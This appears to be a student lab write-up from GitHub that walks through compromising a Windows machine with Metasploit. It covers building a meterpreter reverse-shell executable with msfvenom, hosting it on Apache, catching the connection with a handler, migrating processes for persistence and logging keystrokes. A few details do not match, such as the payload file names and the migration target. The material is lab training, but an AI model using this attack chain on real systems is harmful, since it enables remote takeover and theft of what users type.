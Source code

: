 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

PROGRAM:
Find the attackers ip address using ifconfig
OUTPUT:

![Screenshot 2024-04-28 123654](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/b1b123a4-7669-4ca1-9ebd-795d420e1811)

Create a malicious executable file fun.exe using msenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > malware.exe

OUTPUT:

![Screenshot 2024-04-28 123805](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/f5a37ea4-0eb2-48c5-8f56-5bb6cdd35de5)

copy the malware.exe into the apache /var/www/html folder

![Screenshot 2024-04-28 123853](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/3fb5186a-755a-4fd1-a084-b2d2ef22f827)

Start apache server

sudo systemctl apache2 start

![Screenshot 2024-04-28 123955](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/c7d742d5-955b-48a9-b759-bc185285d9db)

Check the status of apache2

![Screenshot 2024-04-28 124100](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/e78ca036-bbb6-453f-8f86-74ddce4fdb34)

Invoke msfconsole:

![Screenshot 2024-04-28 124215](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/08e1fc5a-c2f0-455d-88fe-2fbcc9a0827b)

OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server

use multi/handler

![Screenshot 2024-04-28 124255](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/57c5d6bd-0b56-4856-abaf-20904a94ceb4)

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 0.0.0.0

exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:

http://192.168.1.2/fun.exe

The file "fun.exe" downloads.

![Screenshot 2024-04-28 124342](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/ff67ae0a-d557-4023-955d-daed09c56c17)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![Screenshot 2024-04-28 124427](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/929d9d97-03d5-4268-80f1-e9a2c13589ff)

To see a list of processes, at the meterpreter > prompt, execute this command:

ps ⇒ can see the fun.exe process running with pid 1156

![Screenshot 2024-04-28 124537](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/b7150f2d-82fe-4e89-b468-b67ce9137f57)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process.

At the meterpreter > prompt, execute this command:

migrate -N explorer.exe

at meterpreter > prompt, execute this command:

netstat

A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.

Notice the "PID/Program name" value for this connection, which is redacted

![Screenshot 2024-04-28 124632](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/1a2ce2f0-ece5-40ed-8afd-0d33a02c7507)

Post Exploitation

The target is now owned. Following are meterpreter commands for key capturing in the target machine

keyscan_start Begins capturing keys typed in the target.

On the Windows target, open Notepad and type in some text, such as your name.

![Screenshot 2024-04-28 124723](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/4d4302cf-2752-4bbf-b716-474e382fe276)

keyscan_dump Shows the keystrokes captured so far

![Screenshot 2024-04-28 124812](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/9c069abc-7f0e-4a6b-ad29-f4af8c53d2cf)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
